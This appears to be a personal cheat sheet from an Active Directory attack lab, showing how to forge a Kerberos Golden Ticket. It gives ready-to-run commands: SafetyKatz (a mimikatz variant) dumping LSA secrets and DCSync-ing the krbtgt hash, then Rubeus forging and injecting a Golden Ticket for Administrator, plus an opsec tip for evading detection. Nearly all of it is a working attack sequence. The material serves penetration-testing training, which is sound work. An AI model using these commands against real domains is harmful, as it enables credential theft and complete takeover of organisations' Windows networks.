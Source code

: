 # Golden Ticket  

Tags: #AD #Windows #Rubeus #Powershell #SafetyKatz 

## SafetyKatz

```powershell 
❯ C:\AD\Tools\SafetyKatz.exe '"lsadump::lsa /patch"'    # Execute mimikatz (variant) on DC as DA to get krbtgt hash 

❯ C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"  # To use the DCSync feature for getting AES keys for krbtgt account, use this command with DA privileges 
```

## Rubeus 

```powershell 
# Use Rubeus to forge a Golden ticket with attributes similar to a normal TGT:
❯ C:\AD\Tools\Rubeus.exe golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd

Notes:
	1. Above command generates the ticket forging command. Note that 3 LDAP queries are sent to the DC to retrieve the values:
		1. To retrieve flags for user specified in /user.
		2. To retrieve /groups, /pgid, /minpassage and /maxpassage
		3. To retrieve /netbios of the current domain
	2. If you have already enumerated the above values, manually specify as many you can in the forging command (a bit more opsec friendly).
```

```powershell 
# The Golden ticket forging command looks like this:
❯ C:\AD\Tools\Rubeus.exe golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

[![Golden-Ticket-Rubeus.png | 900](https://i.postimg.cc/TwC7VQBy/Golden-Ticket-Rubeus.png)](https://postimg.cc/WFqwjmNj)
[![Golden-Ticket-Rubeus2.png | 900 ](https://i.postimg.cc/0jjtcDqV/Golden-Ticket-Rubeus2.png)](https://postimg.cc/p5NYd9rj)


